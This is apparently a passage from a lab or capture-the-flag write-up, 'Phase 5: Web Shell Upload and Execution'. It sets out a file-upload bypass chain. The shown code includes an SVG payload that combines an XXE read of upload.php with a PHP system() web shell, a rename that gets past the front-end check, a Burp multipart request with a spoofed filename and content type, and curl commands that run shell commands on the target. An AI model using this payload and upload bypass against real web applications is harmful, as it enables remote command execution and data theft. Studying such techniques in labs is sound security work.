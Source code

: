 
## Phase 5: Web Shell Upload and Execution

### Combined Attack Payload

**Shell Creation:**
```bash
cat << 'EOF' > shell.phar.svg
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
<?php system($_REQUEST['cmd']); ?>
EOF
```

**Why This Works:**
- ✅ **Extension:** `.svg` satisfies whitelist regex `[a-z]{2,3}g$`
- ✅ **Content-Type:** `image/svg+xml` matches type validation
- ✅ **Execution:** `.svg` files processed as XML, PHP code executed
- ✅ **Bypass:** `.phar` in middle bypasses blacklist (doesn't end with prohibited extension)

### Upload Process

**1. Frontend Bypass:**
```bash
mv shell.phar.svg shell.phar.jpeg
```

**2. Burp Request Modification:**
```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=--boundary

----boundary
Content-Disposition: form-data; name="uploadFile"; filename="shell.phar.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
<?php system($_REQUEST['cmd']); ?>
----boundary--
```

### Command Execution

**File Location Calculation:**
```bash
# Current date in ymd format (e.g., 221130 for Nov 30, 2022)
YMD=$(date +%y%m%d)
echo "Shell location: /contact/user_feedback_submissions/${YMD}_shell.phar.svg"
```

**Test Command Execution:**
```bash
# List root directory
curl "http://TARGET_IP:PORT/contact/user_feedback_submissions/221130_shell.phar.svg?cmd=ls+/"
```
